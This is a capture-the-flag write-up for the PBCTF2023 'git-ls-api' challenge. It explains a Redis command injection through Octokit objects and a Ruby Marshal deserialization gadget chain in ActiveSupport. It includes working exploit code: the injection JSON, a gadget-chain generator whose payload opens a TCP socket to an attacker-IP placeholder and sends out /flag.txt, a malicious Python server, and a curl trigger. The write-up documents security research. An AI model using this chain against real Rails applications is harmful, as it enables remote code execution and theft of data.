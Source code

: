 ```yaml
---
layout: post
title:  "PBCTF2023 git-ls-api"
date:   2023-02-22 
author: numbers
tags: [web, ruby]
---
```


We are given the source to a simple service which displays the SHA hash and file list for a github project. We can also provide an `api_endpoint` and it will retrieve from our host instead.

the `index` endpoint invokes `octokit` to retrieve the SHA and tree of the target repo. While searching the net to understand how `Octokit` works, I found a [gitlab bug](https://gitlab.com/gitlab-org/gitlab/-/issues/371098) where the importer could be hijacked via improper passing of a `SawyerResource` object to a caching function. The bug in this challenge wound up being almost identical, but using the built in rails redis cacher rather than being in gitlab's methods. 

The redis command serializer assumes that it will receive a norrmal flat bytelike or string object, and uses `to_s` to get the value and `bytesize` to compute the length.  `SawyerResource` objects are automagic structs produced directly from our input JSON, so we can set those to mismatch when constructing the RESP command string (it doesn't check that it's the builtin `bytesize` method and not just a field on the input). This lets us inject redis commands directly by using something like:

```python
exploit = {"sha": {"to_s": { "to_s": { "to_s": { "b":{
           "to_s":f"AA\r\n$2\r\nPX\r\n$2\r\n10\r\n*5\r\n$3\r\nset\r\n${len(target)}\r\n{target}\r\n${len(payload)}\r\n{payload}\r\n$2\r\nPX\r\n$6\r\n300000\r\n",
            "bytesize":2
            }}}}},"tree": [{"path":"pwnedbyPFS"}]}
```
The serializer will process the length of the innermost string as `2` but insert the entire string into the command. By completing the remaining fields as part of our input, then starting a new command with the `*` character, we can inject additional commands. Here, I'm invoking a `set` command. Once we have command injection, we still need some way of gaining additional control to read the flag from disk. 

The redis connector is invoked with `raw: True` for both directly controlled fields, but there's a third value stored for every connection which doesn't have that

```ruby
 def session
    Rails.cache.fetch(session_id, expires_in: 5.minutes) do
      { created_at: DateTime.now }
    end.to_json
  end
```

Values fetched without `raw: True` will be unmarshalled, leading to a classic ruby unmarshalling exploit. We can use redis injection to set our `session_id` in the redis server to controlled data, then trigger it to be unmarshalled.

I wasted a _ton_ of time once I got to this point, but I  didn't really know what I was doing. I'll try to explain ruby unmarshalling best I can, but there are [numerous](https://bishopfox.com/blog/ruby-vulnerabilities-exploits) [other](https://www.elttam.com/blog/ruby-deserialization/) [resources](https://devcraft.io/2022/04/04/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) [worth](https://github.com/haileys/old-website/blob/master/posts/rails-3.2.10-remote-code-execution.md) [reading](https://github.com/httpvoid/writeups/blob/main/Ruby-deserialization-gadget-on-rails.md).

Ruby unmarshalling exploits require a "gadget chain" (somewhat analogous to ROP chaining, i.e., reusing existing code). When unmarshalling an object, ruby will invoke the `marshal_load` and `_load`. There are nuanced differences between the two, for more info check [this link](https://blog.appsignal.com/2019/03/26/object-marshalling-in-ruby.html). A typical ruby gadget chain will start with an object which has a `marshal_load` implementation, although from my research, increasingly many exploit chains utilize more complex gadgets or indirect effects rather than directly using `marshal_load`. Whatever the initial mechanism, the general technique is to utilize ruby class which, when unmarshalled, allows you to invoke other useful functions (e.g., by setting the value of a member variable which will be invoked). Ultimately, you want to invoke a sink function which gets arbitrary ruby execution, or other behavior (e.g. shell execution) as determined by the constraints of your expoit.


I was able to replicate a few different gadget options I found online to kick off the chain. The easiest wound up being the `ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy` gadget. This gadget lets us invoke any method (without arguments) on any class. I will briefly describe the `DeprecatedInstanceVariableProxy` gadget, but definately read the source and check out other writeups for more information.

The `DeprecatedInstanceVariableProxy` implements `method_missing` which will be invoked when any unfound method is called on the class:

```ruby
def method_missing(called, *args, &block)
    @deprecator.warn(@message, caller_locations)
    target.__send__(called, *args, &block)
end
```

`Target` is implemented as:
```ruby
class DeprecatedInstanceVariableProxy < DeprecationProxy
    def initialize(instance, method, var = "@#{method}", deprecator = ActiveSupport::Deprecation.instance)
        @instance = instance
        @method = method
        @var = var
        @deprecator = deprecator
    end

    private
    def target
        @instance.__send__(@method)
    end

    def warn(callstack, called, args)
          @deprecator.warn("#{@var} is deprecated! Call #{@method}.#{called} instead of #{@var}.#{called}. Args: #{args.inspect}", callstack)
        end
    end
```

By setting `@method` and `@instance`, we can invoke any function on any class. We instantiate the deprecator as follows:

```ruby
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
depr.instance_variable_set(:@instance, CLASS)
depr.instance_variable_set(:@method, :METHOD)
depr.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@var, "@METHOD")
d2 = ActiveSupport::Deprecation.new
d2.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@deprecator, d2)
```
Replacing `CLASS` with an instance of our target class, and `METHOD` with our target method, we can invoke `CLASS.METHOD`. Note that the target method must have no arguments.

At this point, I had to go digging, as all of the sink function I've seen people mention have been patched (e.g., `ActiveModel::AttributeMethods::ClassMethods::CodeGenerator`).

I discovered `ActiveSupport::CodeGenerator::MethodSet`, which has a function `apply` which calls `module_eval` on an instance variable (very similar to how the DIVP gadget has been used before)

```ruby
def apply(owner, path, line)
  unless @sources.empty?
    @cache.module_eval("# frozen_string_literal: true\n" + @sources.join(";"), path, line)
  end
  @methods.each do |name, as|
    owner.define_method(name, @cache.instance_method(as))
  end
end
```

We can't invoke the `apply` method directly (as it requires three arguments), but examining the surrounding code we can instantiate an `ActiveSupport::CodeGenerator` and it's child `MethodSet` and invoke `execute` on the `CodeGenerator`:

```ruby
def execute
  @namespaces.each_value do |method_set|
    method_set.apply(@owner, @path, @line - 1)
  end
end
```

From here, exploitation is simple, as we have arbitrary ruby. I chose to open a TCP connection to my host, and dump the flag out, rather than trying to inject it into the HTTP response or invoking shell commands.

Here's my code to generate the payload:

```ruby
class ActiveSupport
    class Deprecation
        class DeprecatedInstanceVariableProxy
            def initialize(instance, method)
                @instance = instance
                @method = method
            end
       end
    end
    class CodeGenerator
        class MethodSet
            METHOD_CACHES = Hash.new 
            def initialize(instance, method)
                @instance = instance
                @method = method
            end
        end
    end
end


methodset = ActiveSupport::CodeGenerator::MethodSet.allocate
methodset.instance_variable_set(:@sources, ["f=TCPSocket.open(\"IP_ADDRESS_HERE\",1234)", "t=File.read(\"/flag.txt\")", "f.puts(t)"]) #;
methodset.instance_variable_set(:@cache, Module.class)

codegen   = ActiveSupport::CodeGenerator.allocate
codegen.instance_variable_set(:@owner, "OWNER")
codegen.instance_variable_set(:@path, "PATH")
codegen.instance_variable_set(:@line, 1)
codegen.instance_variable_set(:@namespaces, {"1"=>methodset})

depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
depr.instance_variable_set(:@instance, codegen)
depr.instance_variable_set(:@method, :execute)
depr.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@var, "@execute")
d2 = ActiveSupport::Deprecation.new
d2.instance_variable_set(:@silenced, true)
depr.instance_variable_set(:@deprecator, d2)

Marshal.dump(depr)
```

I host it with python and invoke the server twice with curl. The first invokation sets the session variable in the redis cache, and the second causes it to be unmarshalled.

```python
#!/usr/bin/env python3

from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse
import json
payload = "put_payload_here"
target = "put_sessionID_here"
exploit = {"sha": {"to_s": { "to_s": { "to_s": { "b":{
           "to_s":f"AA\r\n$2\r\nPX\r\n$2\r\n10\r\n*5\r\n$3\r\nset\r\n${len(target)}\r\n{target}\r\n${len(payload)}\r\n{payload}\r\n$2\r\nPX\r\n$6\r\n300000\r\n",
            "bytesize":2
            }}}}},"tree": [{"path":"pwnedbyPFS"}]}
pwn = json.dumps(exploit).encode("utf-8")


class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed_path = urlparse(self.path)
        self.send_response(200)
        self.send_header('Content-type', 'application/vnd.github.v3+json')
        self.end_headers()
        
        self.wfile.write(pwn)
        
        return
    
if __name__ == '__main__':
    server = HTTPServer(('0.0.0.0', 80), RequestHandler)
    server.serve_forever()
```

`curl -vv -c -b "./cookie" --path-as-is http://git-ls-api.chal.perfect.blue/a/B?api_endpoint=http://your_endpoint.net`
